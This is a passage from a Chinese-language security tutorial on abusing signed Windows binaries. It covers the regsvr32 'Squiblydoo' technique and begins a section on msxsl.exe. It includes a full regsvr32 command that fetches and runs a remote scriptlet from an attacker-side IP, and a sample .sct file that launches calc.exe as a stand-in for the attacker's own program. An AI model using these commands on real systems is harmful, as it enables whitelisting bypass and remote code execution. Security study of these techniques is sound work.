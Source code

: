 在目标机上执行：

```
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
```

可以通过自己构造.sct文件，去下载执行我们的程序

```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
```

执行命令，成功弹计算器：<br />![20200413-13.png](../../_img\05-应急响应/1656916503754-ca606097-3fb9-4568-999d-7fe6dff85899.png)


# 14、MSXSL.EXE

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：[https://www.microsoft.com/en-us/download/details.aspx?id=21714](https://www.microsoft.com/en-us/download/details.aspx?id=21714)
